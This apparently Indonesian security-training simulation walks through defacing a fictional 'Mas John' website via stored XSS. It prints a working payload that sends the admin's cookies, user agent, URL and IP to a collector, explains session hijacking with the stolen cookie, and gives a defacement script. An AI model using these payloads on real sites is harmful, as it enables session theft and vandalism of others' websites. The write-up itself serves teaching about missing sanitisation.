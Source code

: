 ## Simulation 1 - Mas John Website

Untuk melakukan deface pada mas John website hacker melakukannya dengan memanfaatkan celah XSS yang ada pada fitur Contact Us form. Tipe serangan yang dilakukan adalah `stored XSS`. Hacker mengirimkan payload XSS pada inputan field Nama yang ada pada form Contact Us.

Mas John tidak melakukan sanitasi terhadap karaker special pada HTML seperti `<`, `>`, `&`, `"`, `'`. Dengan tidak dilakukannya sanitasi maka inputan nama ketika ditampilkan pada admin area berpotensi mendapatkan serangan XSS.

Berikut ini adalah payload yang dikirimkan hacker pada inputan field Nama.

```
<script>
var getTheirIp = function(onDone) {
    var ajax = new XMLHttpRequest();
    ajax.addEventListener('load', function(e) {
        onDone(this.responseText.replace("\n", ""));
    });
    ajax.open('GET', 'https://wtfismyip.com/text');
    ajax.send();
};

var postToMe = function(ipAddr) {
    var data = {
        UA: navigator.userAgent,
        Cookie: document.cookie,
        URL: location.href,
        TheirIP: ipAddr
    };

    var ajax = new XMLHttpRequest();
    var targetUrl = 'http://127.0.0.1:9091/collect/?data=' + JSON.stringify(data);

    ajax.open('GET', targetUrl);
    ajax.send();
};

getTheirIp( postToMe );
</script>
```

Fungsi dari payload diatas adalah mengirimkan data-data dari yang membuka pesan yang masuk di Contact Us dalam hal ini Mas John. Jadi ketika halaman Contact Us pada Admin area ditampilkan maka ia akan mengirimkan data ke alamat hacker yaitu `http://127.0.0.1:9091/collect/data/` informasi yang diambil adalah:

- User Agent
- Cookie
- URL
- IP dari admin

Ketika hacker sudah mendapatkan data-data diatas, dia akan mencoba untuk melakukan session hijacking dengan memanfaatkan cookie yang telah dicuri. Alamat URL sudah diketahui dari data yang diterima. Hacker tinggal mengubah Cookie pada browser sesuai dengan cookie admin yang dicuri dan harusnya akses bisa dibobol.

Langkah selanjutnya adalah melakukan deface dengan mengganti isi dari konten salah satu portfolio. Kita ambil contoh Portfolio berjudul Puisi Kita. Kebetulan Mas John tidak melakukan sanisasi terhadap output dari portfolio yang ditampilkan dari database. Sehingga memungkinkan hacker memasukkan kode HTML/Javascript apapun pada konten.

```
Puisi kita adalah sebuab website kolaborasi tulisan antar seniman puisi. Pengguna dapat mengirimkan puisi dan memberikan tanggapan pada setiap puisi yang ada.

<script>
var body = '<div style="text-align:center;margin-top:100px;"><h2>Hacked by Mas Kher</h2><p>Special thanks to 4L4Y_N4ME.</p></div>';
document.body.innerHTML = body;
document.body.style.color = 'white';
document.body.style.backgroundColor = '#333333';
</script>
```
